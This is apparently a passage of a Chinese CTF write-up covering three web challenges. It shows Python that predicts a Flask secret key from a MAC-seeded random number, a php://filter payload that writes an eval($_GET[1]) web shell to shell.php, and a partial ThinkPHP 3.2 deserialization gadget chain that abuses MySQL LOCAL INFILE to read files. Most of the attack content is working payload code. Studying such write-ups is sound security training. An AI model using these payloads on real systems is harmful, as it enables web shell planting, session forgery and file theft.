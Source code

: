```
random.seed(uuid.getnode())
```

uuid.getnode() 负责获取硬件地址并以48位二进制长度正整数返回,而硬件地址在 `/sys/class/net/eth0/address`

```py
import uuid
import random

mac = "66:8a:85:33:79:51"
temp = mac.split(':')
temp = [int(i,16) for i in temp]
temp = [bin(i).replace('0b','').zfill(8) for i in temp]
temp = ''.join(temp)
mac = int(temp,2)
print(mac)#将mac转为十进制

random.seed(mac)
print(random.random()*100)#由转化后的mac得到伪随机数种子


```

获得后flask_session加密即可

## [WMCTF2020]Web Check in 2.0

* php死亡绕过，过滤了很多关键词，到是搜到的过滤器直接可以绕过去

```
content=php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0deval($_GET[1]);?>/resource=shell.php
```

## [红明谷CTF 2021]EasyTP

* thinkphp v3.2.* 反序列化漏洞

```php
<?php
namespace Think\Db\Driver{
    use PDO;
    class Mysql{
        protected $options = array(
            PDO::MYSQL_ATTR_LOCAL_INFILE => true // 开启才能读取文件
        );
        protected $config = array(
            "debug"    => true,
            "database" => "test", // 可换成任一存在的库
            "hostname" => "127.0.0.1",
            "hostport" => "3306",
            "charset"  => "utf8",
            "username" => "root",
            "password" => "root" // BUU环境密码为root
        );
    }
}
namespace Think\Image\Driver{
    use Think\Session\Driver\Memcache;
    class Imagick{
        private $img;
        public function __construct(){
            $this->img = new Memcache();
        }
    }
}
```